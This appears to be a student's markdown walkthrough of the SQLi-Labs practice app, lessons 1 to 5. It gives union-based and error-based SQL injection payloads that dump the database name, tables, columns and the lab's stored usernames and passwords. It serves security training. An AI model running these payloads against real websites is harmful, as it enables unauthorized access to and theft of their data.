 # ***SQLi Labs***

First we have to set up sqli labs,For that we can use the following commands

install apache2 webserver by > ````sudo apt install apache2````

install mysql by > ````sudo apt-get install mysql-srver````

install php7

git clone the repository of the lab and start all the services.

## ***LESS1***

The website says,Please input the ID as parameter with numeric value.
So we can input ```?id=1 or 2,3,4,5.....```
when we put ```'``` we get sql error 
thus we have a sql injection
we can comment the rest of the query by ```-- -``` or other comments in sql language.
We can dump contents

 ## ***payloads to dump***
 
We can get version of the server by using ```/?id=-1' union select 1,version(),3-- -```

We can get databasename of the server by using ```/?id=-1' union select 1,database(),3-- -```  databasename = security

Going to the terminal and going to mysql. If we type ``show databases;`` it shows databases,
Then We can see security which is our database name. We can find more details ``use security`` with this sql command go into the database.
Using ``show tables;`` we can see the tables. For looking into the tables ``desc emails;`` and so on...
 
## ***LESS2***
The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- -``` doesn't work.
So we put ``'`` before the 1 and change it as ```?id='1'``` as payload.
Now we can comment it ```?id='1' -- - ```
Now we can dump contents using the payloads.

## ***payloads to dump***

To find column_name ```?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'-- -```
We have more payloads that can we do and get contents of database

## ***LESS3***

The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- - nor ?id='1'-- -``` doesn't work.
So we put ``)`` before the ``'`` and change it as ```?id=1)'``` as payload.
No we can comment it ```?id=1)'-- -```
Now we can dump contents using payloads

## ***payloads to dump***
to find data ```/?id=-1') union select 1,group_concat(username),3 from users-- -```
We have more payloads that can we do and get contents of database

## ***LESS4***

The website says,Please input the ID as parameter with numeric value.
We have to use ``') '`` as payload 
Now can comment it using ```?id=1' ")-- -```
Now we can dump contents using payloads

## ***payloads to dump ***

```?id=-1' ") union select 1,group_concat(username),group_concat(password) from users-- -```
We have more payloads that can we do and get contents of database.

## ***LESS5***

In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use ``rand(),floor(),count()`` to get error

## ***payloads to dump***

This will get database ```/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get table names ```/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

to get columns ```/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)-- -```

# ***contents of database***

1.databasename = security

2.tables = emails,referers,uagents,users

3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username

4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
